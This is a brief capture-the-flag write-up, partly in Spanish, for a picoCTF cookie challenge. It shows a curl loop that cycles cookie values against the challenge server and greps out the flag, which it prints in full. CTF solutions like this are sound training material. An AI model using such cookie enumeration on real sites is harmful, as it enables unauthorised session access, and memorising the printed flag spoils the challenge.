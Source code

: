 ## Objetivo

Find the flag being held on this server to get ahead of the competition [http://mercury.picoctf.net:53554/](http://mercury.picoctf.net:53554/)
## Solución

Simple y sencillamente hicimos una peticion cambiando el numero de la cookie y buscamos algo que coincida con pico{}

```
czarragar-picoctf@webshell:~$ for i in {0..20}; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i";done | grep "pico" 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
czarragar-picoctf@webshell:~$ 
```

## Notas adicionales

## Referencias


